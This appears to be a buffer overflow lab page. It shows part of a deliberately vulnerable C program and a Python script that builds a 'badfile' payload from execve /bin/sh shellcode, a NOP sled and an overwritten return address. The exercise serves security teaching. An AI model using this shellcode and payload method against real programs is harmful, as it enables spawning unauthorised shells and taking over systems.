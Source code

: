 ```c
  int length = fread(str, sizeof(char), 517, badfile);
  printf("Input size: %d\n", length);
  printf("str:%p\n", str);
  dummy_function(str);
  fprintf(stdout, "==== Returned Properly ====\n");
  return 1;
}

// This function is used to insert a stack frame of size
// 1000 (approximately) between main's and bof's stack frames.
// The function itself does not do anything.
void dummy_function(char *str) {
  char dummy_buffer[1000];
  memset(dummy_buffer, 0, 1000);
  bof(str);
}
```


生成badfile的代码
```python
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode = (
    "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
    "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
    "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))

##################################################################
# Put the shellcode somewhere in the payload
start = 255             # Change this number
content[start:start + len(shellcode)] = shellcode

# Decide the return address value
# and put it somewhere in the payload
ret = 0xffffca4c+start           # Change this number
offset = 112              # Change this number

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L, byteorder='little')
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
    f.write(content)


```
